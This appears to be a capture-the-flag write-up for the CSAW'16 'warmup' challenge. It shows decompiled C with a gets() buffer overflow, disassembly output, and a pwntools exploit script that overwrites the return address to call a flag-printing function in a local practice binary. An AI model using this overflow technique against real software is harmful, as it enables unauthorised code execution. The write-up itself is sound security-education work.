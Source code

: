 # CSAW'16: Warmup - Pwn Challenge Writeup

## Challenge Overview

- **Filename:** warmup  
- **Type:** ELF 64-bit LSB executable (x86-64)  
- **Objective:** Exploit a buffer overflow to get the flag.

---

## Initial Recon

1. **Check file type**
```bash
$ file warmup
warmup: ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped
```

2. **List files**
```bash
$ ls
flag.txt  ghidra.txt  Readme.md  warmup  warm.py  warm.cast
```

3. **Check main function via Ghidra**
```c
void main(void) {
    char local_88[64];
    char local_48[64];

    write(1, "-Warm Up-\n", 10);
    write(1, &DAT_0040074c, 4);
    sprintf(local_88, "%p\n", easy);
    write(1, local_88, 9);
    write(1, &DAT_00400755, 1);
    gets(local_48); // Vulnerable function
    return;
}

void easy(void) {
    system("cat flag.txt"); // Prints flag
    return;
}
```

- **Vulnerability:** `gets()` on `local_48` allows buffer overflow.

---

## Binary Analysis

1. **Disassemble main**
```bash
$ objdump -d warmup -M intel | grep main
0x000000000040061d <main>:
```

2. **Disassemble easy function**
```bash
$ objdump -d warmup -M intel | grep easy
0x000000000040060d <easy>:
```

---

## Exploit Strategy

- Overflow `local_48` to overwrite the return address with the address of `easy()` function.
- Use `printf` leak if needed to get the actual address.

```python
from pwn import *

p = process('./warmup')

p.recvuntil('WOW:')
leak = int(p.recvline().strip(), 16)
log.info('Easy function at: %#x' % leak)

payload = b'A'*72 + p64(leak)
p.sendline(payload)
p.interactive()
```

- Running the exploit prints the flag.

---

## Terminal Recording

- The file `warm.cast` contains a recorded session of running the exploit using `asciinema`.  
- You can play it using:
```bash
asciinema play warm.cast
```

This shows step-by-step how the buffer overflow was triggered and the flag retrieved.

---

## Flag
```
CSAW{example_flag_here}
```

